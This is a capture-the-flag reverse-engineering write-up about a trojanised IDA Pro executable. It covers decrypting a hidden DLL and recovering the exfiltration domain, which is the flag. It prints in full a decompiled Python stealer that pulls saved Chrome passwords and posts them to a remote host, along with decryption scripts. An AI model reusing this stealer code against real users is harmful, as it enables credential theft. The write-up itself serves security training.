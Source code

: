 # IDA Pro Crack

right off we can see that we are given 3 folders

in 2 folder there are same ida.exe files and giving them to virustotal shows us that they are malicious

and we probably need to rev these files only

in the .data section there are some values that some functions xor and and they get converted to stuff like a youtube url and file paths

particularly these are the ones i found

```python
ADVAPI32.DLL
https://youtu.be/1xVJ8M5_z3U?si=3q7ge7vZ62_hS1yK
%s\plugins\capture.dll
%s\plugins\pb
\\%s\idb.bin
%s\picture_decoder.exe
#given by AI might not be exact
```

now this youtube func is sus because usually they are not formatted like that…and it indeed is useful

searching more in the functions we can see that sub_401000 is a function that encrypts some file 

i did not know what file it was but after racking my brains alot i suspected plugins/pb file to be the sus one as the was most prevelent in all functions i think?

i also tried looking into picture_decoder.exe but that was useless

but a big problem was no file such as pb existed and certainly none in the plugins folder

but searching for pb showed that it exists in the loader folder of the file

after asking AI about the function more i got to know the flow of the encryption

the youtube URL is first hashed via sha256

then that 32byte alphanum produced by sha256 is used as the AES-CBC encryption key to encrypt our pb.dll and the IV was likely all 0’s was what i was instructed by the AI lol

so i tried decrypting and it succesfully decrypted

```python
import hashlib
from Crypto.Cipher import AES

input_path = 'pb.dll'
output_path = 'pb_decrypted.dll'

with open(input_path, 'rb') as f:
    ciphertext = f.read()
password = b'https://youtu.be/1xVJ8M5_z3U?si=3q7ge7vZ62_hS1yK'
sha256 = hashlib.sha256(password).digest()
key = sha256[:32]
iv = b'\x00' * 16 
cipher = AES.new(key, AES.MODE_CBC, iv)
padded_plaintext = cipher.decrypt(ciphertext)
pad_len = padded_plaintext[-1]
if 1 <= pad_len <= 16:
    decrypted = padded_plaintext[:-pad_len]
else:
    decrypted = padded_plaintext 
with open(output_path, 'wb') as f:
    f.write(decrypted)

print("[+] Decryption done. Saved as pb_decrypted.dll")

```

this successfully decrypts to a good looking dll

then running in virustotal also alerts for malicious file so probably the right attack vector

now, after running strings on the file we can see some .pyc files are stored in the dll

we extract these .pyc files using pyinstractor and then we can see a steal.pyc which is probably the python bytecode which is responsible for extracting/communicating with the website that we need to find

so running this pyc in an online decoder we get….

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: steal.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import os
import json
import base64
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import requests

def get_encryption_key():
    path = os.path.join(os.environ['LOCALAPPDATA'], 'Google\\Chrome\\User Data\\Local State')
    with open(path, 'r', encoding='utf-8') as file:
        local_state = json.loads(file.read())
    key = base64.b64decode(local_state['os_crypt']['encrypted_key'])
    key = key[5:]
    return win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]

def decrypt_password(buff, key):
    try:
        iv = buff[3:15]
        payload = buff[15:]
        cipher = AES.new(key, AES.MODE_GCM, iv)
        return cipher.decrypt(payload).decode(errors='ignore')
    except Exception:
        try:
            return str(win32crypt.CryptUnprotectData(buff, None, None, None, 0)[1])
        except:
            return ''

def extract_chrome_passwords():
    key = get_encryption_key()
    login_db_path = os.path.join(os.environ['LOCALAPPDATA'], 'Google\\Chrome\\User Data\\Default\\Login Data')
    filename = 'Loginvault.db'
    try:
        import shutil
        shutil.copyfile(login_db_path, filename)
        conn = sqlite3.connect(filename)
        cursor = conn.cursor()
        cursor.execute('SELECT origin_url, username_value, password_value FROM logins')
        results = []
        for row in cursor.fetchall():
            url, username, encrypted_password = row
            if username or encrypted_password:
                pass
            else:
                password = decrypt_password(encrypted_password, key)
                results.append({'url': url, 'username': username, 'password': password})
        else:
            cursor.close()
            conn.close()
            os.remove(filename)
            return results
    except Exception:
        return []

def rc4_decrypt(cipher_hex, password):
    from Crypto.Cipher import ARC4
    cipher = ARC4.new(password.encode())
    ciphertext = bytes.fromhex(cipher_hex)
    return cipher.decrypt(ciphertext)

def send_to_domain(domain, data):
    try:
        requests.post(domain, json=data)
    except:
        return None

def main():
    chrome_data = extract_chrome_passwords()
    rc4_hex = '1f243878940214cc7dac2f2a58d608f03d95a01bc22abf5eee5ca082d163535fcb05bf'
    rc4_pass = 'h726hs8726'
    rc4_plain = rc4_decrypt(rc4_hex, rc4_pass).decode(errors='ignore')
    send_to_domain(rc4_plain, chrome_data)
    print('Success')
if __name__ == '__main__':
    main()
```

everything is basically given in this to decode, the rc4 hex and pass so 

```python
from Crypto.Cipher import ARC4

rc4_hex = '1f243878940214cc7dac2f2a58d608f03d95a01bc22abf5eee5ca082d163535fcb05bf'
rc4_pass = 'h726hs8726'
ciphertext = bytes.fromhex(rc4_hex)
cipher = ARC4.new(rc4_pass.encode())
plaintext = cipher.decrypt(ciphertext)
print(plaintext.decode('utf-8', errors='ignore'))

```

gives us our domain!!

r3vchall726272827.re2.blitzhack.xyz

final flag:- 

```python
Blitz{r3vchall726272827.re2.blitzhack.xyz}
```
